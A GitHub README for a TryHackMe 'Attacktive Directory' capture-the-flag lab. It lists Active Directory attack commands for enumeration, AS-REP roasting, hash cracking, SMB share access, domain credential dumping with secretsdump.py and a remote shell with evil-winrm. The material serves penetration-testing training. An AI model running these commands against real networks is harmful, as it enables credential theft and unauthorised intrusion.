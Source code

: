 # Attacktive Directory Lab

Welcome to the **Attacktive Directory Lab** repository! This repo contains a detailed walkthrough of the "Attacktive Directory" TryHackMe room, showcasing key techniques in Active Directory security and exploitation.

## Overview
Active Directory is a cornerstone of enterprise network management, and understanding its security is critical for any cybersecurity professional. This lab explores:
- Enumeration of Active Directory using tools like Nmap and enum4linux
- Kerberos abuse techniques, including ASREPRoasting
- SMB enumeration and exploitation
- Privilege escalation to extract sensitive data from a Domain Controller

## Key Topics Covered
1. **Enumeration:**
   - Nmap and enum4linux usage to identify services and gather domain details.

2. **Kerberos Abuse:**
   - Techniques for enumerating users and exploiting Kerberos pre-authentication vulnerabilities.

3. **SMB Exploitation:**
   - Accessing and interacting with SMB shares using `smbclient`.

4. **Privilege Escalation:**
   - Using Impacket tools like `secretsdump.py` for credential extraction.

5. **Flag Submission:**
   - Establishing remote access with `evil-winrm` to retrieve flags.

## Tools and Commands Used
- **Nmap:**
  nmap -sV -sC <target_ip>

- **enum4linux:**
  enum4linux <target_ip>

- **Kerbrute:**
  ./kerbrute -h

- **GetNPUsers.py:**
  python GetNPUsers.py -no-pass -usersfile ./users.txt -dc-ip <target_ip> spooky.local/

- **Hashcat:**
  hashcat -m 18200 hash.txt passwordlist.txt

- **SMBClient:**
  smbclient -L <target_ip> -U svc-admin
  smbclient \\\\<target_ip>\\backup -U svc-admin

- **Impacket's secretsdump.py:**
  secretsdump.py <user>:<password>@<target_ip>

- **evil-winrm:**
  evil-winrm -i <target_ip> -u <user> -p <password>

## Conclusion
This lab provides hands-on experience in understanding and exploiting Active Directory environments. By learning these techniques, you will enhance your skills in penetration testing and defensive security practices.

## Resources
- [My TryHackMe Profile](https://tryhackme.com/r/p/cyb3rd4nc3)
- [Attacktive Directory Room](https://tryhackme.com/room/attacktivedirectory)

Happy hacking! 
